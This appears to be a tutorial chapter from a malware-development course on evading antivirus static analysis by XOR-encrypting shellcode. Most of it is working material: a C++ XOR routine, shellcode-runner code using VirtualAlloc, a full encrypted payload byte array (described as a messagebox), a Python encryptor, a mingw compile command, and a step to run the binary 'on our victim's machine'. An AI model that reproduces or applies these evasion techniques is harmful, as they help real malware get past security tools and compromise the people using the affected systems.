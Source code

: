 # 04 - evasion: payload encryption

Let's say we have a simple shellcode runner malware.    

Let's go to bypass AV static analysis.     

For this first we must encrypt our payload. Why we want to encrypt our payload? The basic purpose of doing this to hide you payload from someone like AV engine or reverse engineer. So that reverse engineer cannot easily identify your payload.    

The purpose of encryption is the transform data in order to keep it secret from others. For simplicity, we use XOR encryption for our case.    

Let’s take a look at how to use XOR to encrypt and decrypt our payload.    

Add XOR function:   

```cpp
char secretKey[] = "secret";

// encryption / decryption XOR function
void deXOR(char *buffer, size_t bufferLength, char *key, size_t keyLength) {
  int keyIndex = 0;
  for (int i = 0; i < bufferLength; i++) {
    if (keyIndex == keyLength - 1) keyIndex = 0;
    buffer[i] = buffer[i] ^ key[keyIndex];
    keyIndex++;
  }
}
```

Then update our simple malware code:    

```cpp
//....
// decrypt payload
deXOR((char*)payload, sizeof(payload), secretKey, sizeof(secretKey));

// allocate memory buffer for payload
payload_mem = VirtualAlloc(0, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

// etc...
```

And the other difference is our payload:    

```cpp
// payload: messagebox (XOR encrypted)
unsigned char payload[] = { 0x3b, 0xe6, 0x8f, 0x5a, 0x2d, 0xf7, 0x97, 0x95, 0x2b, 0xff, 0x70, 0x12, 0x73, 0x65, 0x63, 0x3a, 0xe8, 0x79, 0x21, 0x65, 0x63, 0x72, 0x8d, 0xea, 0x73, 0x65, 0x63, 0x3e, 0xee, 0x8c, 0x3b, 0xe8, 0x6e, 0x2f, 0x65, 0x74, 0x73, 0x9a, 0xb3, 0x3a, 0xe8, 0x61, 0x2c, 0x65, 0x63, 0x72, 0x2d, 0xf9, 0x7e, 0x28, 0x63, 0x72, 0x65, 0x9c, 0xc, 0x65, 0x63, 0x72, 0x28, 0x47, 0xba, 0x29, 0xee, 0x77, 0x4, 0x74, 0x73, 0x65, 0x2b, 0xff, 0x70, 0x3a, 0x73, 0x65, 0x63, 0x3a, 0x56, 0xbd, 0x8c, 0xb5, 0x2b, 0xff, 0x70, 0x22, 0x73, 0x65, 0x63, 0x3a, 0xe8, 0x79, 0x79, 0x65, 0x63, 0x72, 0x8d, 0x22, 0x73, 0x65, 0x63, 0x3a, 0x56, 0xbd, 0x8c, 0xb5, 0x28, 0x37, 0x37, 0x3a, 0x36, 0x29, 0x50, 0x40, 0x4b, 0x30, 0x3f, 0x29, 0x63, 0x3e, 0xa, 0x15, 0x17, 0x29, 0xa, 0x10, 0x17, 0x15, 0x1, 0x1c, 0x22, 0x72, 0x30, 0x27, 0x36, 0x37, 0x50, 0x40, 0x4b, 0x30, 0x3f, 0x29, 0x63, 0x3f, 0x0, 0x7, 0x0, 0x4, 0x4, 0x17, 0x27, 0x1b, 0xb, 0x24, 0x63, 0x3a, 0x0, 0x18, 0x1f, 0xa, 0x43, 0x5, 0xa, 0x6, 0x1f, 0x1, 0x63, 0x3f, 0x0, 0x7, 0x0, 0x4, 0x4, 0x17, 0x65, 0x31, 0xb, 0xc, 0x17, 0x22, 0x17, 0x1b, 0x10, 0x0, 0x10, 0x1, 0x65, 0x3c, 0xf0, 0x89, 0x4b, 0x17, 0x29, 0xff, 0x77, 0x40, 0x3, 0x72, 0x65, 0x74, 0x3e, 0xee, 0x23, 0x6a, 0x28, 0xf9, 0x13, 0x75, 0x2e, 0xf9, 0x61, 0x50, 0x8f, 0x2c, 0xe8, 0xa, 0x5, 0x3c, 0xf8, 0x94, 0xcf, 0xf6, 0xa5, 0x0, 0x55, 0xef, 0x44, 0xf2, 0x99, 0x15, 0xf, 0x66, 0xe3, 0x9e, 0x45, 0x4e, 0x93, 0x10, 0x6b, 0x3a, 0x9a, 0xb3, 0x3b, 0x9a, 0xa4, 0x99, 0x80, 0x39, 0xf8, 0x65, 0x2e, 0x49, 0xa1, 0x1, 0xa5, 0x2d, 0x50, 0xb2, 0x8c, 0xd3, 0x73, 0x65, 0x63, 0x3b, 0xee, 0x2c, 0x43, 0x21, 0xe8, 0x39, 0x59, 0x38, 0x70, 0xae, 0x2a, 0xf3, 0xa4, 0xfc, 0x73, 0x65, 0x63, 0x37, 0xee, 0x5d, 0x3e, 0xe0, 0x8e, 0x7, 0x6d, 0x3c, 0x40, 0xa5, 0x8a, 0xf7, 0x65, 0x74, 0x73, 0x2b, 0xee, 0x76, 0x4e, 0x31, 0xf8, 0x14, 0x67, 0x3f, 0x66, 0x81, 0x32, 0xee, 0x2b, 0x6a, 0x20, 0xff, 0x23, 0x45, 0x2f, 0x71, 0xb6, 0x8b, 0xba, 0x28, 0xee, 0x7e, 0xef, 0x35, 0xf8, 0x5c, 0x2b, 0x71, 0x9e, 0x3c, 0xf8, 0x97, 0xc5, 0x7, 0x6d, 0xfe, 0x75, 0xe1, 0xa3, 0x6, 0x6c, 0x9f, 0x86, 0x87, 0x85, 0x3a, 0x56, 0xb4, 0x98, 0x2b, 0x26, 0xf9, 0x2d, 0x50, 0x3f, 0x66, 0xa8, 0x14, 0x24, 0xff, 0x7f, 0x2c, 0x26, 0xf9, 0x2d, 0x68, 0x3f, 0x66, 0xa8, 0x33, 0xee, 0x70, 0xfa, 0x2c, 0x58, 0xb7, 0x19, 0x5b, 0x3a, 0x5e, 0xa5, 0x1, 0x4f, 0x3c, 0xfe, 0x51, 0x7b, 0x3a, 0xe8, 0x8, 0x57, 0x55, 0x2f, 0xf9, 0x82, 0xd0, 0xf3, 0x5b, 0x4d, 0x7, 0x9f, 0xd0, 0xb4, 0x62, 0x27, 0x3e, 0x29, 0x74, 0x3a, 0xee, 0xaf, 0x33, 0x9a, 0xa3, 0x3a, 0xee, 0xaf, 0x3a, 0xee, 0xa2, 0x9a, 0x71, 0x9c, 0x8d, 0x9a, 0x3c, 0x70, 0xa6, 0x2b, 0xf1, 0xa1, 0x5c, 0xb0 };
```

which encrypted with XOR

For that create simple python script which encrypt payload and replace it in our C++ template:    

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
my_secret_key = "secret"

plaintext = open("./hello.bin", "rb").read()
ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)
```

Run python script:    

```bash
python3 xor.py
```

![img](./img/2024-05-03_10-16.png)    

Compile malware:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-03_10-19.png)    

Then run it on our victim's machine:    

```powershell
.\hack.exe
```

![img](./img/2024-05-03_10-21.png)    